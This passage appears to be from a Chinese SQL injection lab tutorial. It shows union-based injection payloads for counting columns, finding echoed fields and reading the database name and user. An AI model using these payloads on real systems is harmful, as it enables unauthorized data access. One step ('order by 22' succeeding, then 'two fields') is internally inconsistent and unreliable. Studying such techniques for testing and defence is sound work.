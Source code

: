 

判断字段数，输入

```plain
id=1 order by 3    报错
id=1 order by 22    成功
```



说明有两个字段

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882323439-ca0430a2-e3b0-489b-be03-ea518cfa3d0b.png)



查看回显字段，输入

```plain
id=-1 union select 1,2
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882329100-722c9b3d-abd4-4a67-a353-d24dfd330717.png)



查看当前数据库和用户，输入

```plain
id=-1 union select database(),user()
```

![img](../../_img/05-SQL%E6%B3%A8%E5%85%A5/1655882335669-27434202-568f-44dd-983b-32d7fa053be4.png)
